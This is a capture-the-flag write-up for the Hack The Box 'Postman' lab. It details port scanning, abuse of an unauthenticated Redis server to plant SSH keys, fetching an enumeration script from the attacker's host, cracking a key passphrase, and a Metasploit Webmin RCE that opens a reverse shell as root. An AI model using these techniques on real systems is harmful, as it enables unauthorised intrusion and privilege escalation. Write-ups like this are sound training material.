


Postman HTB WriteUp

HTB Postman writeup⌗
‘Easy’ machine, user was a bit of a challenge, rooting was easier. The process is: Scan –> Initial foothold –> Own User –> Own Root.
Initial Scan⌗
# add to hosts and scan
sudo echo "10.10.10.160 postman" >/etc/hosts
sudo nmap -sV -sC -sT -O -o nmapinitial Postman
Scan results
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-27 02:33 CET
Nmap scan report for postman (10.10.10.160)
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
| 256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_ 256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
10000/tcp open http MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/27%OT=22%CT=1%CU=39870%PV=Y%DS=2%DC=I%G=Y%TM=5E055F
OS:9E%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST
OS:11NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)EC
OS:N(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.16 seconds
We got an OpenSSH server and two different webservers. The Apache server on port 80 does not seem to contain anything interesting.
I launched dirbuster in the background just in case while I investigated the other services.
On port 10000, we got a Webmin instance, v1.910 (from the Server header). Looking at the official website, looks like Webmin is a tool used to remotely manage UNIX machines. Moreover, Searching for “Webmin 1.910” on Google returns an interesting set of results. This should be easy, right?

Most of the exploits are written for Metasploit, so lets launch it and see what we can do.
Initial foothold?⌗
Lets launch Metasploit and search for the Webmin exploits.
$ sudo msfdb init
[+] Starting database
[i] The database appears to be already configured, skipping initialization
$ msfconsole
=[ metasploit v5.0.65-dev ]
+ -- --=[ 1955 exploits - 1092 auxiliary - 336 post ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops ]
+ -- --=[ 7 evasion ]
msf5 > search webmin
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 auxiliary/admin/webmin/edit_html_fileaccess 2012-09-06 normal No Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
1 auxiliary/admin/webmin/file_disclosure 2006-06-30 normal No Webmin File Disclosure
2 exploit/linux/http/webmin_packageup_rce 2019-05-16 excellent Yes Webmin Package Updates Remote Command Execution
3 exploit/unix/webapp/webmin_backdoor 2019-08-10 excellent Yes Webmin password_change.cgi Backdoor
4 exploit/unix/webapp/webmin_show_cgi_exec 2012-09-06 excellent Yes Webmin /file/show.cgi Remote Command Execution
5 exploit/unix/webapp/webmin_upload_exec 2019-01-17 excellent Yes Webmin Upload Authenticated RCE
exploit/unix/webapp/webmin_backdoor). Looking at the description, we can see that some Webmin versions served by SourceForge were backdoored, and this exploit will try to use the introduced backdoor to gain access.
msf5 > use exploit/unix/webapp/webmin_backdoor
msf5 exploit(unix/webapp/webmin_backdoor) > show options
Module options (exploit/unix/webapp/webmin_backdoor):
Name Current Setting Required Description
---- --------------- -------- -----------
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 10000 yes The target port (TCP)
SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL/TLS for outgoing connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
TARGETURI / yes Base path to Webmin
URIPATH no The URI to use for this exploit (default is random)
VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic (Unix In-Memory)
msf5 exploit(unix/webapp/webmin_backdoor) > set RHOSTS Postman
RHOSTS => Postman
msf5 exploit(unix/webapp/webmin_backdoor) > set SRVHOST 10.10.14.200
SRVHOST => 10.10.14.200
msf5 exploit(unix/webapp/webmin_backdoor) > set SSL true
SSL => true
msf5 exploit(unix/webapp/webmin_backdoor) > set LHOST 10.10.14.200
LHOST => 10.10.14.200
msf5 exploit(unix/webapp/webmin_backdoor) > run
[*] Started reverse TCP handler on 10.10.14.200:4444
[-] Exploit aborted due to failure: not-vulnerable: Set ForceExploit to override
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/webmin_backdoor) >
The exploit failed, looks like our target is not vulnerable. Looks like a dead end, and dirbuster did not find anything. What did we miss?
Initial Scan - Part 2 ¯\(ツ)/¯⌗
Lets launch nmap again, scanning all ports this time:
sudo nmap -sV -sC -sT -O -p- -o nmapinitial Postman
truncated output:
....
Nmap scan report for postman (10.10.10.160)
Host is up (0.17s latency).
Not shown: 65494 closed ports, 37 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
| 256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_ 256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp open redis Redis key-value store 4.0.9
10000/tcp open http MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
...
Initial foothold⌗
We can directly access the Redis server using redis-cli, without authentication. Redis is a key-value storage (you may think of it as a giant dictionary), so the first logical step seems to enumerate all the keys.
redis-cli -h Postman
Postman:6379> KEYS *
(empty list or set)
Is there anyway to turn our Redis database access to RCE? Luckily yes, and the process is well documented [1] [2]
The idea is to configure Redis to backup its data (where we will put our public ssh key) to a file named authorized_keys, whose path we will set to a .ssh folder of our convenience, so we can normally login using ssh.
We can manually exploit it, use the redis upload Metasploit module, or use an existing Python exploit. I failed to manually exploit it, there were multiple people connected to the Redis server and I was taking to long to complete the steps, so I tried the Python exploit, and after several attempts I finally got a shell.
Note: If you get asked for a password after successfully installing the certificate, you may need to reset the machine.
Looks like the flag is in /home/Matt, but we do not have read access. Time to escalate!
Escalating to user⌗
Using the redis account, lets enumerate the machine, using the helper script htbenum.
On the host machine:
./htbenum.sh -u
./htbenum.sh -i yourip -p 8080 -w
On the remote machine:
wget http://yourip:8080/htbenum.sh -O /tmp/htbenum.sh
chmod +x ./htbenum.sh
./htbenum.sh -i yourip -p 8080 -r
Inside the generated report file, we get something interesting, a private (but password protected) SSH key in the /opt directory.
Let’s download it (copy pasting works fine), and try to crack it with john:
# Convert the key to a format that john understands
/usr/share/john/ssh2john.py key >pw
john --wordlist=/usr/share/rockyou.txt pw
And we get the password computer2008. Using the private key or the password with SSH does not work, but su Matt from the redis user does.
redis@Postman:~$ su Matt
Password:
Matt@Postman:/var/lib/redis$ cd
Matt@Postman:~$ ls
user.txt
Matt@Postman:~$ cat user.txt
517ad0*******************
Root⌗
Remember the login form on port 10000 for Webmin? We got a valid pair of user/password, lets try them in the login form on https://Postman:1000.

Nice, we have valid credentials for the Webmin server! That reminds me of two exploits that needed working credentials :). Lets try with one of the exploits, exploit/linux/http/webmin_packageup_rce
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > show options
Module options (exploit/linux/http/webmin_packageup_rce):
Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD yes Webmin Password
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 10000 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI / yes Base path for Webmin application
USERNAME yes Webmin Username
VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Webmin <= 1.910
msf5 exploit(linux/http/webmin_packageup_rce) > set RHOSTS Postman
RHOSTS => Postman
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
SSL => true
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.14.200
LHOST => 10.10.14.200
msf5 exploit(linux/http/webmin_packageup_rce) > run
[*] Started reverse TCP handler on 10.10.14.200:4444
[+] Session cookie: dc92983ded0f9a0bf48d72e23b8ee903
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.200:4444 -> 10.10.10.160:39002) at 2019-12-29 03:50:33 +0100
>whoami
root
>ls /root/
redis-5.0.0
root.txt
>cat /root/root.txt
a2577*************************
And we owned root.
Acknowledgments⌗
Thanks to @J4ri for the nudge that led to the discover of the Redis server, that went completely unnoticed at first.